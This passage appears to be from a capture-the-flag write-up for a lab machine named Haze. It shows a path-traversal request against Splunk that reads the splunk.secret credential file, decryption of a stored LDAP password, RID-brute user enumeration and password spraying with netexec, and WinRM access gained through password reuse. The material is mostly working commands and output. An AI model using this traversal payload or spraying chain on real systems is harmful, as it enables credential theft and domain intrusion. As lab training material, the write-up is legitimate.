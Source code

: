```bash
➜  Haze python3 -m pip install splunksecrets
➜  Haze curl  "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/auth/splunk.secret" > splunk.secret
➜  Haze splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
Ld@p_Auth_Sp1unk@2k24

```

***
Creds:
paul.taylor: Ld@p_Auth_Sp1unk@2k24
***
## User
dump all users

```bash
➜  Haze netexec smb haze.htb -u paul.taylor -p  Ld@p_Auth_Sp1unk@2k24 --rid-brute | grep -i "SidTypeUser" | awk -F'(' '{print $1}' | awk -F'\' '{print $2}' | tee users
Administrator 
Guest 
krbtgt 
DC01$ 
paul.taylor 
mark.adams 
edward.martin 
alexander.green 
Haze-IT-Backup$ 
```
now we could password spray all the users to see if there is password reuse with another useraccount

```bash
➜  Haze netexec smb haze.htb -u users -p  Ld@p_Auth_Sp1unk@2k24 --continue-on-success
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Administrator:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Guest:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\krbtgt:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\DC01$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
```
and indeed mark.adams also uses the same password we could also winrm with this account
```
➜  Haze netexec winrm haze.htb -u mark.adams -p  Ld@p_Auth_Sp1unk@2k24                      
WINRM       10.10.11.61     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
WINRM       10.10.11.61     5985   DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 (Pwn3d!)
```
